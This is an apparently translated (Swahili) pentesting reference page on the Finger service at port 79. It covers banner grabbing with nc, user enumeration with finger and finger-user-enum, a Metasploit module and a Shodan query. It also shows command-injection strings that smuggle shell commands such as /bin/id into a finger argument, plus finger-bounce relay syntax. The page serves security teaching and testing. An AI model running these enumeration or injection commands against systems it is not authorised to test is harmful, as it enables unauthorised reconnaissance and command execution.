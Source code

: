 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **Basic Info**

Programu/huduma ya **Finger** inatumika kupata maelezo kuhusu watumiaji wa kompyuta. Kawaida, taarifa zinazotolewa zinajumuisha **jina la kuingia la mtumiaji, jina kamili**, na, katika baadhi ya matukio, maelezo ya ziada. Maelezo haya ya ziada yanaweza kujumuisha eneo la ofisi na nambari ya simu (ikiwa inapatikana), wakati mtumiaji alingia, kipindi cha kutokuwa na shughuli (wakati wa kupumzika), tukio la mwisho ambalo barua pepe ilisomwa na mtumiaji, na maudhui ya mipango na faili za mradi za mtumiaji.

**Bandari ya kawaida:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Uhesabu**

### **Kuchukua Bango/Kuunganisha Msingi**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Uainishaji wa mtumiaji**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Mbadala yake unaweza kutumia **finger-user-enum** kutoka [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), baadhi ya mifano:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap tekele script kwa kutumia scripts za default**

### Metasploit inatumia hila zaidi kuliko Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

- `port:79 USER`

## Utekelezaji wa amri
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Tumia mfumo kama finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
{{#include ../banners/hacktricks-training.md}}
